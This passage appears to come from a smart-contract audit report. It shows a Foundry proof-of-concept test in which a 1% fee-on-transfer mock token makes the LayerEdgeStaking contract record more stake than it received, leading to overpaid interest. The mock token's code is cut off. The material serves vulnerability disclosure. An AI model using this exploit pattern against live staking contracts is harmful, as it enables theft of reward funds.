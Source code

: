 ```solidity
            LayerEdgeStaking.initialize,
            (address(feeToken), admin)
        );
        ERC1967Proxy proxy = new ERC1967Proxy(address(impl), initData);
        staking = LayerEdgeStaking(payable(address(proxy)));

        // Fund the staking contract with rewards
        feeToken.mint(address(this), 100_000 ether);
        feeToken.approve(address(staking), 10_000 ether);
        staking.depositRewards(10_000 ether);
    }

    function test_FeeOnTransferResultsInAccountingMismatch() public {
        vm.startPrank(alice);
        feeToken.approve(address(staking), 100 ether);
        staking.stake(100 ether); // Only 99 is received due to fee

        // Confirm mismatch
        assertEq(
            feeToken.balanceOf(address(staking)),
            99 ether,
            "Staking contract only received 99 tokens"
        );

        // Time warp to accrue interest
        vm.warp(block.timestamp + 365 days);
        staking.claimInterest();

        uint256 post = feeToken.balanceOf(alice);
        assertGt(
            post,
            990 ether,
            "Overpaid rewards due to inflated balance accounting"
        );

        vm.stopPrank();
    }
}
```

`MockFeeOnTransferToken.sol`: 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {ERC20} from "solmate/tokens/ERC20.sol";

contract MockFeeOnTransferToken is ERC20 {
    constructor(
        string memory name_,
        string memory symbol_,
        uint8 decimals_
    ) ERC20(name_, symbol_, decimals_) {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }

    function transfer(
        address recipient,
        uint256 amount
    ) public override returns (bool) {
        uint256 fee = amount / 100; // 1% fee
        uint256 amountAfterFee = amount - fee;
```